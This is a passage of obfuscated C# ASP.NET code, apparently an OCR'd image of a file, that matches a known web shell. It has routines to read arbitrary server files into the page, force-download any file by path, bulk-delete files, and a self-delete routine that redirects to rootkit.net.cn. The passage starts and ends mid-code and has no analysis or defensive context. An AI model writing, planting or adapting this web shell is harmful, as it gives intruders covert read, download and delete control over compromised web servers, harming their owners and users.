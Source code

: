}
if(File.Exists(Sqon.Value))
{
StreamReader sr;
if(NdCX.SelectedItem.Text=="UTF-8")
{
sr=new StreamReader(Sqon.Value,Encoding.UTF8);
}
else
{
sr=new StreamReader(Sqon.Value,Encoding.Default);
}
Xgvv.InnerText=sr.ReadToEnd();
sr.Close();
}
else
{
Xgvv.InnerText=string.Empty;
}
}
public void ksGR(string path)
{
FileInfo fs=new FileInfo(path);
Response.Clear();
Page.Response.ClearHeaders();
Page.Response.Buffer=false;
this.EnableViewState=false;
Response.AddHeader("Content-Disposition","attachment;filename="+HttpUtility.UrlEncode(fs.Name,System.Text.Encoding.UTF8));
Response.AddHeader("Content-Length",fs.Length.ToString());
Page.Response.ContentType="application/unknown";
Response.WriteFile(fs.FullName);
Page.Response.Flush();
Page.Response.Close();
Response.End();
Page.Response.Clear();
}
public void SJv(string path)
{
try
{
string[] spdT=path.Split(',');
for(int i=0;i<spdT.Length-1;i++)
{
File.Delete(AXSbb.Value+Ebgw(spdT[i]));
}
xseuB("File Delete Success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void hae()
{
try
{
File.Delete(Request.PhysicalPath);
Response.Redirect("http://www.rootkit.net.cn");
}
catch(Exception error)
{
xseuB(error.Message);